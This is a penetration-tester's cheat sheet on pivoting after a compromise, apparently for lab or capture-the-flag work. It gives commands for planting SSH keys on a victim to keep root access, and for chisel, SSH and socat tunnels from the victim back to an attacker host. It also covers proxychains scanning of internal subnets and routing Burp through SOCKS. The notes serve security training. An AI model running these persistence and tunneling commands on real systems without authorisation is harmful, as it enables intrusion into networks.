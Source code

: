 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwardin


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

`./chisel server -p 3333 --reverse --socks5`

* on server

```bash
sudo vim /etc/proxychains4.conf

# socks5 127.0.0.1 1080

./chisel client 172.16.40.5:3333 R:1080:socks

# test

proxychains nmap -F 10.185.10.0/24
```

### Using SSH


#### SSH Local Port Forwarding

* we need to forward packets to target via ssh client's port 4455 over sshserver to target's port 445. where 192.168.11.2 is a pivot point.

`ssh -N -L 0.0.0.0:4455:10.16.223.217:445 root@192.168.11.2`

Attacker can access remote victim port 445 locally on port 4455.

#### SSH Remote Port forwarding

`ssh -N -R 9999:localhost:8080 user@remote`

This command tells SSH to set up a tunnel from the remote machine's port 9999 to your local machine's port 8080. user@remote should be replaced with your actual SSH login credentials and server.

#### SSH Dynamic Port forwarding

```bash
ssh -D 8080 -f -C -q -N user@yourserver.com
```
-D 8080 sets up the SOCKS proxy on port 8080.

-f asks SSH to go into the background just before command execution.

-C enables compression.

-q enables quiet mode.

-N tells SSH not to execute a remote command.

Then make a socks5 entry in proxy chains for .

##### Multi Hop Scenatio

lets assume: localhost -> 10.11.2.3 -> tor


### Using Socat

#### Forward proxy with socat

`socat -ddd TCP-LISTEN:7777,fork TCP:10.1.11.213:3060`

This line is going to open a listener on 7777 and fork each new connection. New connections are then forwarded to `10.1.11.213:3060`.

This is especially useful if socat is installed on target but not possible to install chisel.

## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

